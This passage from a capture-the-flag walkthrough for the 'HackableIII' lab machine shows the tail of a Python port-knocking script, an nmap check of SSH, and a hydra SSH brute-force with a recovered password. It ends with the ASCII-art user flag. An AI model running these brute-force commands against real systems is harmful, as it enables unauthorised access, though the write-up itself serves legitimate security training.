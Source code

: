 	    if index == 1:
	        print(arr)
	        knock(arr)
	    else:
	        for i in range(index - 1):
	            possiblePermutations(arr, index -1)
	
	            if(index % 2 == 0):
	                swap(arr, i, index - 1)
	            else:
	                swap(arr, 0, index -1)
	        
	        possiblePermutations(arr, index - 1)
	
	if(isHostUp(target_ip)):
	    print("[+] Scanning "  + target_ip + "...") # Check if host is up and can be scanned
	
	    possiblePermutations(ports, len(ports))
	    
	else:
	    print("Host Is Not Up!")
	
}
We can also use the command 'knock'.

root@kali ~/D/C/HackableIII# nmap -T5 -p22 10.0.0.17

PORT   STATE SERVICE
22/tcp open  ssh

After running the script we can nmap port 22 and see that is is open.
After port knocking we can brute force ssh with the wordlist that we found and the username 'jubiscleudo'.

root@kali ~/D/C/HackableIII# hydra -l 'jubiscleudo' -P wordlist.txt ssh://10.0.0.17 -V -I

[22][ssh] host: 10.0.0.17   login: jubiscleudo   password: onlymy

Once we are logged in we can read the .user.txt on the home folder.

.user.txt:

%                                              ,%&&%#.                                              
%                                         *&&&&%%&%&&&&&&%                                          
%                                       &&&&            .%&&&                                       
%                                     &&&#                 %&&&                                     
%                                   /&&&                     &&&.                                   
%                                  %&%/                       %&&*                                  
%                                 .&&#     (%%(,     ,(&&*     %&&                                  
%                                 &&%    %&&&&&&&&&&&&&&%&%#    &&&                                 
%                                 &&%&&&&&&&   #&&&&&*   &&&&&&&%&%                                 
%                                 &&&&&&&&&&&&&&,   /&&&&&&&&&&&&&&                                 
%                                 &&&&&&&%                 &&&&&&&&                                 
%                                  %&&%&&&&              /&&&%&&&%                                  
%                                 &.%&&% %&&%           &&&& %&&/*&                                 
%                              &&&&&&&&&&  %&&&&#   %%&&&&  %&&&&&&&&&                              
%                           /&%&/   *&&&&&&   %&&&&&&%&   &&&&&&.   %&&&.                           
%                          &&&           &&%&           %%%%          .&&&                          
%                         &&%                                           &&&                         
%                        %&&.   *&%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%&&    /&&(                        
%                       /&&#   #&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&*   %&&                        
%                       &&%    ,&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%     %&%                       
%                      &&&      %&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&      %&&                      
%                      &&&      &&&&&&&&&&&&&&&%&   %&&&&&&&&&&&&&&&%      &&&                      
%                      %&&&%    &&&&&&&&&&&&&&&&     &&&&&&&&&&&&&&&%    &%&&#                      
%                        &&&&&&&%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&                        
%                           &%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%                           
%                                &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%                                
%                                *&%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&                                 
%                                &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%                                